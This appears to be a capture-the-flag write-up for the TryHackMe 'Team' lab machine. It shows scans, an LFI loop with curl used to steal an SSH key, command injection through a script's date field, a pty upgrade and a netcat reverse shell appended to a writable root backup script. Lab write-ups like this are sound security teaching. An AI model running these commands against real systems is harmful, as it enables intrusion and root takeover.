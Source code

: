 ## TryHack Me Team Writeup
---

#### Starting the machine 
![](/docs/images/team/team1.png)


#### Nmap Scan
```
nmap -sV -sC 10.10.182.107 -oA nmap/recon-team
```

![](/docs/images/team/team2.png)


#### Gobuster Scan
```
gobuster dir -u http://10.10.182.107 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/team  
```

![](/docs/images/team/team3.png)

Unfortunately there were no results on Gobuster


#### Looking at the hidden webpage

After some looking at the webpage, its just a default apache page. But the page source code indicates that there's something more.

![](/docs/images/team/team4.png)


After adding the team.thm link to the hosts file, a new page pops us at http://team.thm

![](/docs/images/team/team5.png)


#### Finding the next step

After some digging around and revealing nothing, it was time for another gobuster scan using the new webpage.

```
gobuster dir -u http://team.thm -w /usr/share/wordlists/dirb/common.txt -o services/apache/gob-team-thm -x txt,php,html
```

![](/docs/images/team/team6.png)

One thing that's revealed is the /robots.txt endpoint.

![](/docs/images/team/team7.png)

And there we go, a 'dale' is found. This is probably a username for something. 

Let's go back to the main directory to look around for more stuff.


#### /scripts endpoint

I forgot to originally check the /scripts folder for more content, so I'll do that now.

```gobuster dir -u http://team.thm/scripts -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o services/apache/gob-team-thm-scripts -x txt,php,html,js 
```


![](/docs/images/team/team8.png)

I can see that there's a script.txt file inside the /scripts endpoint.

Let's see if we can pull it out. 

![](/docs/images/team/team9.png)

So this is it, some credentials were redacted (not by me that's actually the box).

And there is an older version of the script, presumably. I'm just gonna go out on limb and try script.txt.old and script.old.

![](/docs/images/team/team10.png)

So script.old was the previous script.

![](/docs/images/team/team11.png)

And it gives some more information about the ftp user. 


#### FTP 

![](/docs/images/team/team12.png)

The only obvious file available was the 'New_site.txt' file, so that could be downloaded into the local system.


![](/docs/images/team/team13.png)

The file indicates that a ".dev" domain can be found on the host and to put your id_rsa in the relevant config file. So a developement domain usually indicated vulnerabilities and the id_rsa tells us that there is an potentiall ssh connection to be made. 


#### Admin Page - User Flag

After adding dev.team.thm to the hosts, it can be accessed.

![](/docs/images/team/team14.png)

From here, there is a single link connecting directly to the teamshare.


![](/docs/images/team/team15.png)

Just by looking at the URL, a potential directory traversal could be possible.

![](/docs/images/team/team16.png)

I'm pretty lazy but we got the user flag which is nice. 


#### Persistence

Next step is to escalate our privileges. The text file did mention the id_rsa keys, I'm going to be using a quick LFI script that I actually stole from another writeup. 

```sh
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  curl 'http://dev.team.thm/script.php?page='"$p"
done < /usr/share/wordlists/lfi-small.txt
```

![](/docs/images/team/team17.png)


This then give Dales OpenSSH key with the /etc/ssh/sshd_config path.

![](/docs/images/team/team18.png)

After configuring it, we now have SSH privileges.

![](/docs/images/team/team19.png)

So this looks like a standard SUID binary to gain priv esc.


#### Lateral Movement

So this script has an error inside of it that allows for command to be executed by the gyles user. When entering the date, the "bin/bash -i" string can be used to gain a weird shell with no output. Then this is just upgraded to a python shell using the legendary one-liner:

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


![](/docs/images/team/team22.png)

I did mess up in this one by trying to go back but I got the gyles shell. 

This is a result of the intentionally flawed scripting, the name parameter is written directly to the file. But the date, however, is inputted as a command in the "$error 2> /dev/null" line. This means that as long as the command is a valid one, it will run. Giving a shell as gyles using bash. 


#### Privilege Escalation

Of course I'm going to use LinPeas now that it's OSCP allowed. 

![](/docs/images/team/team23.png)

So here a file called /main_backup.sh can be accessed as an admin group.

![](/docs/images/team/team24.png)

Back to SUIDing then.


For this one, since it's actually writeable, a separate shell can be spawned by appending the a nc script. 

![](/docs/images/team/team27.png)

I'm gonna use this one since it hasn't failed me yet.


```
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![](/docs/images/team/team28.png)

We should have a nc shell now.

![](/docs/images/team/team29.png)

There we go, root shell obtained. 